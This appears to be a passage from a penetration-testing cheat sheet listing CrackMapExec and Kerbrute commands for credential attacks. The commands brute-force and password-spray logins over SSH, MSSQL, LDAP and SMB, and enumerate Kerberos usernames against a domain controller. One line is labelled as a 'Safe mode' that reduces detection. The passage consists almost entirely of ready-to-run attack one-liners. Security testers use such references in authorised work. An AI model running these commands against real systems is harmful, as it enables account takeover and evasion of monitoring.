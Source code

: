 ```bash
crackmapexec ssh targets.txt -u users.txt -p passwords.txt

# MSSQL authentication
crackmapexec mssql targets.txt -u users.txt -p passwords.txt

# LDAP authentication
crackmapexec ldap target_ip -u users.txt -p passwords.txt

# Output formats
crackmapexec smb targets.txt -u users.txt -p passwords.txt --log cme.log

# Verbose output
crackmapexec smb targets.txt -u users.txt -p passwords.txt -v

# Thread control
crackmapexec smb targets.txt -u users.txt -p passwords.txt -t 100

# Timeout configuration
crackmapexec smb targets.txt -u users.txt -p passwords.txt --timeout 60
```

### 4.4 Kerbrute: Kerberos Username Enumeration and Password Spraying

```bash
# Username enumeration
kerbrute userenum --dc dc.domain.com -d domain.com users.txt

# Password spraying
kerbrute passwordspray --dc dc.domain.com -d domain.com users.txt Password123

# Brute force single user
kerbrute bruteuser --dc dc.domain.com -d domain.com passwords.txt admin

# Brute force user list
kerbrute bruteforce --dc dc.domain.com -d domain.com user_pass_combinations.txt

# Custom port
kerbrute userenum --dc dc.domain.com:88 -d domain.com users.txt

# Verbose output
kerbrute userenum --dc dc.domain.com -d domain.com users.txt -v

# Custom delay
kerbrute passwordspray --dc dc.domain.com -d domain.com users.txt Password123 --delay 100

# Output file
kerbrute userenum --dc dc.domain.com -d domain.com users.txt -o kerbrute_results.txt

# Thread control
kerbrute passwordspray --dc dc.domain.com -d domain.com users.txt Password123 -t 10

# Safe mode (reduce detection)
kerbrute passwordspray --dc dc.domain.com -d domain.com users.txt Password123 --safe
```
